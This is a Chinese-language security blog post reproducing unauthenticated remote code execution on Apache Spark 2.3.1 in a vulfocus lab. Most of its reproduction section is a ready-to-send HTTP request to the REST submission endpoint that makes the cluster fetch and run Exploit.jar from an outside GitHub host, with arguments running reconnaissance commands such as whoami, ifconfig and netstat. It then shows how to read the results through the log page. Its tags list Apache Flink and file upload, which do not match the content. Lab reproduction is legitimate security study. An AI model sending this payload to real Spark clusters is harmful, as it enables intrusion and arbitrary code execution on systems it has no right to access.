 ```yaml
---
title: Spark未授权访问RCE
layout: post
post-image: /assets/images/spark.jpg
description: Apache Spark 是专为大规模[数据处理](https://baike.baidu.com/item/数据处理/944504)而设计的快速通用的计算引擎。
tags:
- 内网渗透
- Apache Flink
- 文件上传
---
```



# Spark未授权访问RCE

​                                                                                                                       ——花无名    

## 1.Apache Spark 

Apache Spark 是专为大规模[数据处理](https://baike.baidu.com/item/数据处理/944504)而设计的快速通用的计算引擎。是一种与 Hadoop 相似的开源集群计算环境，但是两者之间还存在一些不同之处，这些有用的不同之处使 Spark 在某些工作负载方面表现得更加优越，换句话说，Spark 启用了内存分布数据集，除了能够提供交互式查询外，它还可以优化迭代工作负载。

## 2.漏洞介绍

系统未做身份验证，导致任意用户访问系统地址即可进入系统管理界面，并通过构造数据包，调用系统API接口，提交REST格式的API恶意代码，从而导致系统可被执行任意代码并getshell

## 3.漏洞复现

A：直接访问目标的8080端口即可进入系统管理界面，查看当前版本号为2.3.1（注：这里使用的靶场环境为vulfocus，故端口映射与系统原本默认端口不一致）

![image-20211106110800090](/assets/images/20211106/image-20211106110800090.png)

B：构造数据包：使用目标6066端口/v1/submissions/create构造数据包，提交REST格式的API恶意代码，并获取submissionId，其中appArgs参数值为需要执行的命令

`POST /v1/submissions/create HTTP/1.1

Host: your-ip:6066

Accept-Encoding: gzip, deflate

Accept: */*

Accept-Language: en

User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)

Content-Type: application/json

Connection: close

Content-Length: 680

 

{

 "action": "CreateSubmissionRequest",

 "clientSparkVersion": "2.3.1",

 "appArgs": [

  "whoami,w,cat /proc/version,ifconfig,route,df -h,free -m,netstat -nltp,ps auxf"

 ],

 "appResource": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",

 "environmentVariables": {

  "SPARK_ENV_LOADED": "1"

 },

 "mainClass": "Exploit",

 "sparkProperties": {

  "spark.jars": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",

  "spark.driver.supervise": "false",

  "spark.app.name": "Exploit",

  "spark.eventLog.enabled": "true",

  "spark.submit.deployMode": "cluster",

  "spark.master": "spark://your-ip:6066"

 }

}`

![image-20211106111209048](/assets/images/20211106/image-20211106111209048.png)

C：成功获取submissionid后，访问 http://your-ip:8081/logPage/?driverId={submissionId}&logType=stdout 即可查看执行结果

![image-20211106111440687](/assets/images/20211106/image-20211106111440687.png)